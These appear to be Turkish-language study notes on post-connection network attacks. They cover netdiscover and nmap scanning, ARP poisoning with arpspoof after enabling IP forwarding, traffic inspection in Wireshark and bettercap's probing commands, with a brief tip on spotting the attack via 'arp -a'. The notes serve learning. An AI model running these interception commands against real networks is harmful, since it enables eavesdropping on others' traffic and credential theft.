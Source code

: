 ### Bağlantı Sonrası Yapılacaklar

**_ Netdiscover _**
-Mac adresleri ve ip adreslerini gösteren tablo çıkarır

~ifconfig //ip adresini öğren (bağlı olduğun ağın ya da kırdığın ağın)

~netdiscover -i eth0 -r 10.0.2.0/24 -c 10 // eth0=adı ,, 0/24 bu aralıktaki ağlar ,, 10 ne kadar istek atılacağı

**_ nmap _**

~nmap 10.0.2.0/24 //aynı sonucu verir

////////

**_ Port _**
-Her veri belirli portlardan sağlanır. Her servisin kendine has portu vardır.
Örn: 80 portu Http , 443 portu Https (Web sitesi açmak için)

////////

**_ MITM (Man-in-the-Middle) Saldırısı (Ortadaki Adam) _**

-Hacker bilgisayar kendini ortaya konumlandırır. Kurban, tüm verileri hackera yollar (çünkü onu modem sanıyor). Hacker da bu verileri modeme yollar (çünkü trafiğin devam etmesini istiyor). Arada durup, tüm verileri okuyabilir, değiştirebilir veya kaydedebilir.

**_ ARP (Address Resolution Protocol) (Adres Çözümleme Protokolü) Açığı _**
--Bir bilgisayar, bir IP adresine veri göndermek isterse önce o IP’ye ait MAC adresini öğrenmek için ağa ARP isteği (Who has?) yollar.Kurbana:
“Modemin IP’si şu, ama MAC adresi benim” der.Modeme de:
“Kurbanın IP’si şu, ama MAC adresi benim” der.

**_ ARP Poison _**

~netdiscover -i eth0 -r 10.0.2.0/24 -c 10 //mac ip adres öğren

~echo 1 > /proc/sys/net/ipv4/ip_forward //Normalde bir bilgisayar, gelen IP paketlerini sadece kendisine yönlendirilmişse işler. Ancak bu komut sayesinde o bilgisayar, gelen IP paketlerini başka bir cihaza yönlendirebilir hale gelir. Yani, bilgisayar bir router (yönlendirici) gibi davranır.

~arpspoof -i eth0 -t 10.0.2.6 10.0.2.1 //saldırı
~arpspoof -i eth0 -t 10.0.2.1 10.0.2.6 //2 terminalle hem modeme hem

~arp -a //saldırılan bilgisayar da bu komutu çalıştırdığında aynı mac adresine sahip iki cihaz görürsen saldırıya uğruyorsun

**_ Wireshark _**
--Wireshark, ağ trafiğini gerçek zamanlı olarak izlemek ve analiz etmek için kullanılan güçlü bir ağ analiz aracıdır.Ağa gelen ve giden tüm veri paketlerini görüntüler.Paketlerin içeriğini analiz eder (örneğin: IP, TCP, HTTP, DNS, vs.).Ağ sorunlarını tespit etmeye yardımcı olur. Güvenlik açıklarını incelemek için kullanılır (örneğin: şifrelenmemiş veriler, şüpheli bağlantılar).MITM gibi saldırılarda kurbanın verilerini görmek için kullanılır.

**_ Spoofing _**

Spoofing, Türkçede “aldatma”, “kimliğe bürünme” veya “sahtecilik” anlamına gelir ve siber güvenlikte bir sistemin, cihazın ya da kişinin kimliğini taklit ederek yapılan saldırılara verilen genel isimdir.

**_ Wireshark Saldırı İnceleme _**

~echo 1 > /proc/sys/net/ipv4/ip_forward
~arpspoof -i eth0 -t 10.0.2.6 10.0.2.1 //saldırı
~arpspoof -i eth0 -t 10.0.2.1 10.0.2.6 //2 terminalle, hem modeme hem cihaz

wireshark aç ve hareketleri incele saldırdığın cihazın

**_ Bettercap _**
Aktif bir saldırı aracıdır. MITM saldırıları, DNS spoofing, credential harvesting gibi saldırgan işlemleri yapabilir. CLI (komut satırı) üzerinden çalışır. Ağ üzerindeki diğer cihazları hedef alabilir. Paketleri değiştirebilir, yönlendirebilir.

~bettercap -iface eth0 //arayüz çıkar

~help //açıldıktan sonra yazarsan neler yapabileceğin görürünür

-- net.probe --

~net.probe on/off // nmap veya netdiscover ın yaptıklarını yapar. Ağları dürter. IP ve kullanıcının (telefon,bilgisayar..) isimleri görünür. net.recon da açılır.

~net.show // topladığı bilgileri gösterir.
~net.clear // topladıüı bilgiler, siler.
